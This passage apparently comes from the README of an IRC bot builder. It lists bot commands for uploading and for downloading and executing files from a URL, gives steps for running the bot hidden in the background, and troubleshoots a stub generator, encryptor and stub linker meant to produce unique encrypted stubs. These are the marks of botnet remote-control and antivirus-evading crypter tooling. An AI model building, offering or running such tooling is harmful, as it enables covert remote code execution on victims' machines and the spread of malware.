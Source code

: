 #### **Advanced Commands:**
```
!uploadurl http://url/file.exe # Upload file from URL
!downloadandexecute http://url/file.exe # Download and execute
```

### **4. Running the Bot**
```bash
# Run the bot
./mirc_bot_builder

# Run in background
nohup ./mirc_bot_builder > bot.log 2>&1 &

# Check bot status
ps aux | grep mirc_bot_builder
```

---

## 🔧 Troubleshooting

### **Common Issues & Solutions**

#### **1. Compilation Errors**
```bash
# Error: "g++: command not found"
sudo apt-get install build-essential  # Ubuntu/Debian
sudo yum install gcc-c++              # CentOS/RHEL

# Error: "std::random_device not found"
# Update to GCC 7+ or add -std=c++11 flag
g++ -std=c++11 -o native_stub_generator native_stub_generator.cpp
```

#### **2. Runtime Errors**
```bash
# Error: "Permission denied"
chmod +x native_stub_generator native_encryptor stub_linker

# Error: "File not found"
# Check if files exist in current directory
ls -la *.cpp *.exe
```

#### **3. Stub Generation Issues**
```bash
# If stubs are not unique
# Ensure you're using the latest version with improved RNG
git pull origin star-2
make clean && make

# If stub linker fails
# Check if stub file contains valid key/nonce
grep -A 2 "const std::string" your_stub.cpp
```
